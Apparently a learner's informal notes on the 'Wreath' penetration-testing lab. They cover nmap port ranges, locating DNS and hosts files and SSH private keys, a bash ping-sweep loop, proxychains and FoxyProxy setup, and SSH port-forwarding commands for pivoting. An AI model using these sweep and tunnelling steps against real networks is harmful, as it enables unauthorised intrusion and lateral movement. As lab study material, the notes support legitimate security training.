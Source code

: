```yaml
---
description: its about that time boys
---
```


# Wreath

Since we are encouraged to make a report and document every step, i will oblige

### Enumeration

`-p 1-15000` is used to specify a port range on nmap, `-p-` scans every single port

`etc/resolv.conf` OR `ipconfig /all` stores DNS records\
`etc/hosts` OR `C:\Windows\System32\drivers\etc\hosts` stores the hosts so if you dealing w a domain you know what to do

`id_rsa` is the PRIVATE key and thats all you need, it be in the `.ssh` folder

Try to run static binaries&#x20;

```
for i in {1..255}; do (ping -c 1 172.16.0.${i} | grep "bytes from" &); done
```

### Pivoting

#### Proxychains and Foxyproxy

Proxychains when working w CLI tools\
Activated by prepending the command `proxychains` to other commands. Reads options from `etc/proxychains.conf` however it looks for that file in pwd first so to make sure you dont mess up the master config file just cp to pwd and modify that one

<div align="left"><figure><img src=".gitbook/assets/image (69).png" alt="" width="156"><figcaption><p>Only TCP scans allowed, no ICMP also so <code>-Pn</code></p></figcaption></figure></div>

Foxyproxy for accessing webapp, you've already used it to configure burp, go for SOCKS5 cus chisel uses it SOCKS4 is default proxy type

#### SSH

```
ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN
ssh -D 1337 user@172.16.0.5 -fN   #create proxy, useful w proxychains
ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN  #reverse shell from rhost
```

`-f` backgrounds the shell, `-N` tells ssh not to exec any commands and only set up the connection
